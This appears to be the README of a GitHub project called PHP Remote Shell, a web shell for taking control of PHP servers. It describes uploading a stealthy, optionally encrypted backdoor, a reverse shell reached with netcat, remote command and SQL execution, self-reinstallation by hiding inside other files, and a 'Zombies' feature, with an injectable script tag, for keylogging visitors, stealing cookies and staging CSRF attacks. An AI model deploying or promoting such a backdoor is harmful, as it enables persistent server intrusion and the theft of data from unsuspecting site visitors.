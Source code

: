 # PHP Remote Shell

[Project homepage](http://phpremoteshell.esaracco.fr)

PHP Remote Shell is a Swiss army knife for exploring servers via the Web. It contains a reverse shell in PHP, a full file browser, the ability to execute shell commands or PHP / SQL / LDAP code, crontab management and « zombies » management. It can also nest itself in existing files in order to redeploy automatically during their execution. If it has been previously encrypted, it is able to decrypt itself on the fly.

It was designed to be robust and work with just about any POSIX server with a decent version of PHP. It may look a bit rustic at times, but it should work everywhere.

PHP Remote Shell will be as silent as possible, using only POST requests, displaying images using inline data, keeping session in its own file instead of cookies when possible, and so on.

## Requirement

You need a POSIX machine with PHP CLI on local, and a POSIX server with a PHP web service up on remote.

## Installation

Basically, you just have to put `prs.php` somewhere on the Web and access it with a POST request (GET requests will display a HTTP 404 error).

The simplest way to request PRS URL once uploaded is to open `launcher.html` with a web browser and fill the form.

You can use PRS _as is_ or you can encrypt it before uploading it on the remote host. Encryption is a guaranty for you that nobody will read the source code neither your authentication parameters if any. Knowing this, you can add what you want in it, your secrets will be well protected, even on remote :-)

To encrypt the script, go to `encryption/` and execute `./crypt yourpasswd`. The final encrypted `prs.php` file will be created in the same directory. This is the file to upload on remote host.

The `launcher.html` file allow you to specify your encryption password before requesting the PRS page.

To force PRS to ask for authentication, edit the script and fill the `Authentication` section constants.

To allow direct download of PRS file, just pass it `prsds=` as URL parameter :

```
http://remote-server/prs.php?prsds=
```

_Note that this will not work if you previously defined `CHECK_AUTH` or if you have encrypted PRS file_.

The original script name of PRS is `prs.php` but you can rename it as you want !

## Usage

### Edit

Allow you to open the `Profiles management` popup to save sessions and retrieve them later.

### Remote information

Displays the result of some common tools, plus the output of the `phpinfo()` function if available.

### Shell

#### Reverse shell

If the remote PHP allows it, let you choose a remote IP and port on which listening with a full PHP reverse shell.

It is just a basic shell, which means that sometimes it will not work and that the connection may be cut of or looped at any time. Some commands will be rewritten (like `ping` or `top`), others will be emulated (like `clear`). It is likely that in dying (when you grab the `shutdown` command from your client) it causes a zombie process.

Use `netcat` or any other client on your local machine to execute bash commands on the remote host.

```bash
you@local~$ nc 192.168.3.5 4000
PRS reverse shell 0.12.1
'quit' to quit, 'shutdown' to kill, 'help' for this help
www-data@192.168.3.5 /var/wwww$
```

#### Command execution

Sometime, reverse shell is not possible. This section allows you to execute bash commands and see their results directly from the PRS web page.

### PHP code

With this feature, you can write PHP code, execute it on the remote host and see the result.

### File browser

PRS file browser allows you a lot of things. You can create/edit/delete files, view symlinks and so on. It looks a lot like the output of the `ls` command, with some improvements.

#### Host me in

This feature of the file browser bottom menu allows you to « host » PRS on another PHP script. If someone ever erases it, it would be automatically recreated by calling this page.

### Crontab

Where possible, it allows you to edit, save or even remove the crontab of the current web user.

### Zombies

_This feature will not work if PRS file has been previously encrypted._ Use it only for fun and non-profit ;-)

You can have fun spying remote user's keyboard, injecting code, stealing cookies and so on. You can also web ping hosts on user's private network before launching CSRF attack for example. But, once again : it is instable, not stealth...

To create a zombie, inject the following HTML code in a web page :
```html
<script src="http://remote-server/prs.php?z=js"></script>
```
Then go to the PRS `Zombies` menu and wait until it appears on the list.

### SQL / LDAP

This menu allows you to access remote SQL or LDAP database assuming you know their access settings. For now it can manage MySQL (`mysql`, `mysqli`, `pdo_mysql`), PostgreSQL (`pgsql`, `pdo_pgsql`) and LDAP. It offers some basic macros, but most of the work will have to be done in SQL.

## License
GPL
